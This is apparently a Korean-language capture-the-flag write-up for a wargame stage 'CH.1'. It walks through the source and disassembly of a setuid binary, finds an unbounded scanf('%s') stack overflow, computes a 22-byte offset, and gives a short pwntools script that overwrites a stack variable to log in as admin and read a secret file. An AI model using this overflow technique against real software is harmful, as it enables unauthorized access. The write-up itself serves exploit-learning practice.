






> 오버플로우로 스택 변수 변조 → admin 계정으로 로그인 → 클리어.
> 

## 1. 문제 분석





재밌는? 무서운? 아포칼립스 상황과 함께, CH.1 에 들어섰다. 일단 아무것도 모르니 ls 를 입력해 파일이 뭐가 있는지 확인해보았다. 



MV라는 바이너리와, 해당 바이너리의 소스코드가 주어져있었다. MV 바이너리를 실행시켜보니 ID와 PW를 입력받고 있단걸 알 수 있었다. 



### 보호기법 확인



checksec을 통해 보호기법을 가볍게 확인해주고, 바로 MV.c 소스코드를 확인해보았다.

### 소스코드 분석

`main()`을 보면 로그인 성공  분기가 두 개다.

```c
int main()
{
    int cmp1 = 3, cmp2 = 3, cmp3 = 3, cmp4 = 3;
    char admin[10] = "deny", id_input[20], pw_input[20];

    system("clear");

    printf("ID: ");
    scanf("%s", id_input);
    printf("PASSWORD: ");
    scanf("%s", pw_input);
    sleep(1);
    if(strncmp(id_input, "admin", 5) == 0) printf("%s\n", admin);
    sleep(1);

    cmp1 = strncmp(id, id_input, 10);
    cmp2 = strncmp(pw, pw_input, 19);
    cmp3 = strncmp(id_input, "admin", 5);
    cmp4 = strncmp(admin, "confirm", 7);

    if(cmp1 == 0 && cmp2 == 0){ //여기서 user로 로그인된다. 
        printf("Wellcome Back!\n");
        menu();
        exit(0);
    }
    
    if(cmp3 == 0 && cmp4 == 0){ //여기로 로그인하면 admin으로 간다.
        system("clear");
        printf("Redirect to Admin page\n");

        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");
        sleep(1);
        printf(".......\n");

        system("clear");

        root(); 
        // 이 부분에서 admin page가 열리고 2번을 선택하면 .TOP_SECRET을 읽을 수 있게 된다

        exit(0);
    }
```

진짜 비밀번호는 `root()` 안의 `file_read(".TOP_SECRET")`로만 읽을 수 있다. 즉 CH1의 **목표는 admin 로그인이다.**

admin 분기 조건:

```c
cmp3 = strncmp(id_input, "admin", 5);   // ID가 "admin"으로 시작
cmp4 = strncmp(admin, "confirm", 7);    // admin 변수가 "confirm"
```

- `cmp3`은 ID에 그냥 `admin`을 넣으면 된다.
- 문제는 `cmp4`다. `char admin[10] = "deny"`라서  admin 값은 `"deny"`로 고정이라 `"confirm"`과 비교하면 당연히 0이 아니다(deny≠confirm). **admin의 "deny"를 "confirm"으로 바꿔야 한다.**

## 2. 발견한 취약점

```c
scanf("%s", id_input);   // id_input[20]
scanf("%s", pw_input);   // pw_input[20]
```

`scanf("%s")`는 **길이 제한이 없다.** input별 버퍼 크기(20)보다 길게 넣으면 스택에서 인접한 변수를 덮어쓸 수 있다. 이걸로 `admin` 변수를 `"confirm"`으로 바꾸면 버퍼오버플로우를 통한 익스플로잇이 가능할 것이다.

## 3. 접근 방법

이 문제는 바이너리를 **실행하지 않고 `disass main`만으로** 풀린다. 필요한 정보(입력 버퍼 위치, admin 위치)가 전부 쉽게 드러나기 때문이다.

```bash
gdb -q ./MV
pwndbg> disass main     # r 안하고 정적으로만 분석해서 풀이 가능.
```

> 처음엔 동적으로 보려고 `strncmp`에 브레이크를 걸고 실행하려 했다. 하지만 ① 원본은 setuid라 디버깅 불가(`/proc/PID/mem Permission denied`), ② 복사본으로 붙으니 `system("clear")`가 fork한 자식 프로세스(`/usr/bin/clear`)로 gdb가 따라 들어가 엉뚱한 곳에서 `strncmp` 브레이크가 터졌다. 이런 삽질 과정을 반복하다가, 생각해보니 **결국 정적 분석 하나로 끝나는 거라 동적 디버깅 자체가 필요 없었다.**
> 

## 4. 스택 레이아웃 분석

`disass main`에서 각 변수의 rbp 기준 위치를 확인했다.

```
sub rsp, 0x50                          ; 스택 프레임 (카나리 없음)
lea rax,[rbp-0x30] ; scanf → id_input  →  id_input = rbp-0x30
lea rax,[rbp-0x50] ; scanf → pw_input  →  pw_input = rbp-0x50
mov [rbp-0x1a], 0x796e6564 ("deny")    →  admin    = rbp-0x1a
```

| 변수 | 위치 | 비고 |
| --- | --- | --- |
| pw_input[20] | rbp-0x50 | 가장 낮은 주소 |
| id_input[20] | rbp-0x30 |  |
| **admin[10]** | **rbp-0x1a** | 타겟 |
| cmp4 ~ cmp1 | rbp-0x10 ~ rbp-0x4 |  |

**스택 카나리가 없다 →** 그냥 편하게 오버플로우 가능하다.

## 5. 오프셋 계산 (+ 방향 규칙)

- **스택이 자라는 방향** (아래로 자란다): 높은 주소 → 낮은 주소
- **버퍼에 값을 쓰는 방향** (`buf[0], buf[1]...`): 낮은 주소 → 높은 주소

오버플로우는 **항상 더 높은 주소 쪽을 덮는다.** 따라서 **덮을 목표는 넘칠 버퍼보다 높은 주소에 있어야 한다.** (처음에 소스코드를 복사해,`test`란 바이너리를 만들고 확인해보니, 이 상황이 거꾸로돼서 `admin[10]`을 못덮어쓰는 상황이라, 당황했다가 언더플로우를 유도해야하나? 생각했으나 혹시나 하고 MV 바이너리를 그냥 정적분석 해보니 쉽게 풀렸다. 컴파일러 차이 때문에 이렇게나 달라질 수 있다는걸 체감했다…)

admin(`-0x1a`)은 id_input(`-0x30`)보다 숫자가 작으니 **더 높은 주소** → id_input에 오버플로우로 값을 덮어, admin 값 변경이 가능해진다. 

```
패딩 크기 = (id_input 오프셋) - (admin 오프셋) = 0x30 - 0x1a = 0x16 = 22
```

메모리 그림 (rbp = 0x...e340 가정):

```
						주소          내용
낮은주소 0x...e310  ← id_input[0]   (rbp-0x30)   ← 쓰기 시작
				0x...e311  ← id_input[1]
				  ...          ↓
				0x...e325  ← id_input[21]
				0x...e326  ← admin[0]      (rbp-0x1a)   ← 22바이트일 때 도착
높은주소	0x...e327  ← admin[1]
```

> pw_input(rbp-0x50)은 id_input(rbp-0x30)보다 **아래(낮은 주소)**라서, 위로 넘치면 중간에 있는 id_input을 먼저 덮어써버린다. 그러면 먼저 입력해둔 `"admin"`이 지워져 `cmp3`이 깨지므로  공격이 무의미해진다. 그래서 공격은 id_input으로 진행해야 한다.
> 

## 6. Exploit

ID 입력 순간에 `cmp3`(앞 5글자 admin)와 `cmp4`(admin="confirm")를 동시에 만족시키게끔 만든다.

```
ID = "admin" + "A"*17 + "confirm"
      └ 5 ┘    └ 17 ┘    ← 22바이트째(admin 자리)부터 confirm
PW = 아무거나 입력해도 된다. 차피 if 조건 전부 만족시켜서 의미 없다.
```

- `admin` (5) → `cmp3` 통과
- `A`17 (17) → 패딩 (5 + 17 = 22)
- `confirm` → admin 위치에 덮임 → `cmp4` 통과
- user 분기는 건너뛰고 admin 분기로 진입

Exploit에 쓰인 코드는 아래와 같다

```bash
from pwn import *

p = process('./MV')

payload = b"admin" + b"A"*17 + b"confirm"

p.sendline(payload)   # ID
p.sendline(b'aaaa')   # PASSWORD

p.interactive()
```

`root()`에 진입하면 ADMIN 메뉴가 뜬다. 여기서 2번을 선택하면 `file_read(".TOP_SECRET")`가 실행되어 다음 스테이지 비밀번호가 출력된다.

## 7. Clear


